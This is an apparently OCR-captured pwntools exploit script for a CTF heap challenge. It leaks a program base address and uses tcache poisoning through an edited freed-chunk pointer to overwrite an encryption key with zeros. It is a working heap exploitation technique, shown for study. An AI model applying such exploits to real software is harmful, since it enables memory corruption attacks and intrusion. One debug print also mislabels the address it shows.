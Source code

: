 ```py
p = process('./debug/heap')
libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -ex "{query}" -p {p.pid}' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def add(index: int, content: bytes) -> None:
	p.sendlineafter(b'>>', b'1')
	p.sendlineafter(b'idx:', str(index).encode())
	p.sendafter(b'content:', content)

def delete(index: int) -> None:
	p.sendlineafter(b'>>', b'2')
	p.sendlineafter(b'idx:', str(index).encode())

def show(index: int) -> bytes:
	p.sendlineafter(b'>>', b'3')
	p.sendlineafter(b'idx:', str(index).encode())
	return p.recvuntil(b'Please choice your option!!!').split(b'\nPlease choice your option!!!')[0]
	
def edit(index: int, content: bytes) -> None:
	p.sendlineafter(b'>>', b'4')
	p.sendlineafter(b'idx:', str(index).encode())
	p.sendafter(b'content:', content)

# --------------

def encrypt(data: bytes) -> bytes:
    key = b'\x00' * 16
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(data)
    
def decrypt(data: bytes) -> bytes:
    key = b'\x00' * 16
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.decrypt(data)

add(0, b'a' * 16)
data = show(0)
leak_addr = u64_(data.split(b'a' * 16)[1])
program_base = leak_addr - 0x1bf0
BookList_addr = program_base + 0x4080
print(f'program_base:     { hex(program_base) }')
print(f'BookList_addr:    { hex(program_base) }')

add(1, b'nothing')
delete(0)
delete(1)
edit(1, b'\xa0')     # modify the fd to the KEY chunk

add(2, b'nothing')
add(3, b'\x00\x00\x00\x00\x00\x00\x00\x00')    # refresh key to 0x00

```